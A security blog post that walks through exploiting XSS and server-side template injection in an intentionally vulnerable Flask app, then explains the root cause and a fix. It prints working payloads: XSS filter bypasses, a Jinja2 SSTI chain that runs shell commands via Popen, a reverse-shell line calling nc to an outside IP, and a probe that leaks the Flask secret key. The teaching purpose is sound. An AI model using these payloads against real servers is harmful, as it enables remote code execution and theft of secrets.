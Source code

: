 .. title: XSS and SSTI in Flask
.. slug: xss-ssti-in-flask
.. date: 2022-02-15 21:40:41 UTC-05:00
.. tags:
.. category: hacking
.. link:
.. description:
.. type: text

Introduction
=============

According to the project's home page,

  Flask is a lightweight WSGI web application framework. It is designed to make getting started quick and easy, with the ability to scale up to complex applications. It began as a simple wrapper around Werkzeug and Jinja and has become one of the most popular Python web application frameworks.

Django sits at the other end of the python web service spectrum.
Each has their own advantages and disadvantages.
If I had to pick a downside for Flask, it is that can be easy to introduce unintentional vulnerabilities.
This is **not** a problem with Flask itself, but is a result of improper sanitizing of user input.

This blog post will explore two vulnerabilities in an intentionally vulnerable flask app.

.. TEASER_END

I recently saw this code posted on twitter as a "spot the vulnerability" challenge.
I wanted to explore and do a more in depth explanation.

XSS
===

For example, take the following code:

.. gist:: 4c111b9adce0c603e76bc0f43f628216

At first glance, this seems relatively ok.
The first thing I usually look for is whether the filter function replaces all instances of the bad strings.
This function does correctly replace strings recursively, so that's good.
Unfortunately, the script does fail to recognize capitalized tags, such as ``Script``.
There is one problem, and that is the inability to add the closing bracket ``>``.
That means the standard ``<script>alert(1)</script>`` is not going to work.
Fortunately, this can be bypassed by using a different ntml entity.

::
  <img src=1 onerror=print()<!--
  <img src=1 onerror=al\u0065rt(1)<!--

Both of these work in Firefox.
So, what's happening here?
The first example, ``print`` is not one of the disallowed functions.
This should open the print page dialog and is used to validate that the onerror function is fired.
The second example is a unicode escape for the standard alert function.
I believe this works because the ``\u0035`` is not converted to ``e`` until later on in the request lifecycle.

SSTI
====

Now that XSS is out of the way, the really critical part of this code is that there is no Server Side Template Injection (SSTI) protection.
Below is the full code for the app, which is run using ``python vulnerable-flask-app.py``

.. gist:: 857af16801958f370492a6f4caeaaa83

Flask is not the only web application framework that can have SSTI vulnerabilities.
Things like node.js can have SSTI bugs.

On the back end, flask is rendering HTML using the Jinja2 template engine.
The template engine syntax is very simple, and relies on curly braces (much like python fstrings).
An example is shown here: `jinja documentation <https://jinja2docs.readthedocs.io/en/stable/>`_

If an attacker can controls input the template that is rendered by the template engine, they may be able to execute code.
First, test with a simple string ``{{7*7}}`` in the input field.
If the result that is shown is 49, then there is a chance that RCE is possible.
Technically, the fact that it computes that mathematical expression, means that remote code has been executed.
However, just being able to multiply two numbers is not particularly helpful.

.. image:: /images/xss_ssti/49.png


Now I need to see if I can get into other python modules by exploring the Method Resolution Order.
First, start with an empty string ``{{''.__class__.__base__}}``
This displays the familiar python class object syntax, ``<class 'str'>``
Now, explore the base class ``{{''.__class__.__base__}}``, which shows ``<class 'object'>``
This gets to the top level python class 'object', so now go back down the tree.

``name={{''.__class__.__base__.__subclasses__()}}`` produces the following:

.. image:: /images/xss_ssti/subclasses.png

At this stage, the best thing to do is to copy that output into a text editor, and conver the instances of ``, <class`` to a newline.
What is needed, is the array index of the module that is helpful to run meaningful code, such as the ``os.Popen`` function to spawn a process.
Popen is on line 231, and is the list index 230 (python is 0 indexed).

Therefore, pointing the browser to
``localhost:8080?name={{''.__class__.__base__.__subclasses__()[231]('whoami', shell=True, stdout=-1).communicate()}}``
will show the output of the whoami command in the browser.
A reverse shell can be obtained by using the following parameter:
``{{''.__class__.__base__.__subclasses__()[231]('nc 192.168.1.5 1337', shell=True, stdout=-1).communicate()}}``

Most of that is pretty self explanatory, but there are a few things I wasn't familiar with before researching this.
``shell=True`` is an argument to Popen() that tells it to execute in a shell.
I admit I don't fully understand what ``stdout=-1`` does, but otherwise the output will go to STDOUT on the server.
Finally, ``communicate()`` gets the output from the shell that was spawned to run the command.

To state the obvious, is very bad.

Another useful template value to test is ``{{config.items()}}``, which will reveal the secret key used to sign Flask cookies.

Root cause analysis
===================

The root cause of this vulnerability exists in the lines 28-43 of the gist posted above.
By default, Flask automatically configures jinja2 to escape html strings unless the developer explicitly configures it otherwise.
In this example, the string format utility is used rather than allowing jinja2 to do its magic.

Remediation
===========

The remediation for both of these is extremely simple.
User input shouldn't be trusted anywhere, so it really shouldn't matter if a user inputs html entities or sql statements, or anything else.
However, if they really do need to be filtered out, the input text should be converted to lowercase for blacklist matching.
Ultimately, simply using the template engine correctly is the best and easiest method.

My proposed solution is located here:

.. gist:: cd649f0dcd0a63c8defe8c13d0cdac32

Lastly, all the code is available on `Github <https://github.com/haicenhacks/vulnerable-flask-app>`_
